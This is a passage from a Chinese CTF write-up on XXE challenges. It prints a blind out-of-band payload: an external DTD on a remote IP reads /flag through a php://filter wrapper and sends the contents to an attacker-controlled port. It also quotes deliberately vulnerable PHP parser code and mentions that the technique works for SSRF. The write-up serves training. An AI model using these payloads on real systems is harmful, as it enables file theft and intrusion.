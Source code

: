 ```xml-dtd
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://1.15.107.150:7778/evil.dtd">
%remote;
]>
<root>123</root>
```

服务器dtd

```dtd
<!ENTITY % send "<!ENTITY &#x25; xxe  SYSTEM 'http://1.15.107.150:3296/%file;'> ">
%send;
%xxe;
```

开启端口3296

![image-20221205214110427](XXE.assets/image-20221205214110427.png)

反弹得到flag

这一步可以访问外网，换个思路，也可以打**ssrf**

### 调用过程

**remote**先调用访问到远程服务器上的**evil.dtd**，然后调用**send**，发送http请求到**3296**端口，再调用**file**来将得到的flag填充进http请求

## web375-web376

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 15:22:05
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"/', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```
